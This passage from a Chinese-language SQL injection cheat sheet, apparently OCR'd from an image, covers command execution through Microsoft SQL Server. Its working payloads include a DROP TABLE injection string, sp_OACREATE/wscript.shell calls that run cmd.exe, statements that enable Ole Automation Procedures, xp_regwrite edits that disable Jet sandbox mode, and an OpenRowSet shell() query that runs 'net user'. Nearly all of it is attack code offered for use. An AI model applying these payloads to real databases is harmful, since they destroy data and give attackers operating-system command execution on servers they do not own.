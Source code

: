 删除表:

```
' DROP TABLE TMP_DB--

```

#### 2.利用sp_OACREATE和sp_OAMethod调用控件执行系统命令:

```
DECLARE @execmd INT EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe [[/c]]   ver >C:\inetpub\wwwroot\test.txt'

```

`sp_oacreate`存储过程在MSSQL 2005及以上版本中默认是禁用的.

激活 sp_oacreate 存储过程的语句:

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE;

```

附:SQL Server 提供了sp_OACREATE和sp_OAMethod函数,可以利用这两个函数调用OLE控件，间接获取一个shell。使用SP_OAcreate调用对象wscript。shell赋给变量@shell，然后使用SP_OAMETHOD调用@shell的属性run执行命令。

#### 3.JET 沙盒模式执行系统命令(Sandbox Mode)

在默认情况下Jet数据引擎不支持select shell("net user ")这样的SQL语句，必须开启JET引擎的沙盒模式才能执行命令，先利用`xp_regwrite`存储过程改写注册表，然后利用OpenRowSet访问一个ACCESS数据库文件，再执行运行命令的SQL语句。

激活沙盒模式:

Windows 2003

```
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;--

```

Windows 2008 R2

```
exec  master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Wow6432Node\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0; 

```

Windows 2003 + SQL Server2000 沙盒模式执行命令的语句:

（Windows 2003 系统c:\windows\system32\ias\目录下默认自带了2个Access数据库文件ias.mdb/dnary.mdb,所以直接调用即可.）

```
select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Database=c:\windows\system32\ias\ias.mdb','select shell("net user  >c:\test.txt ")');

```
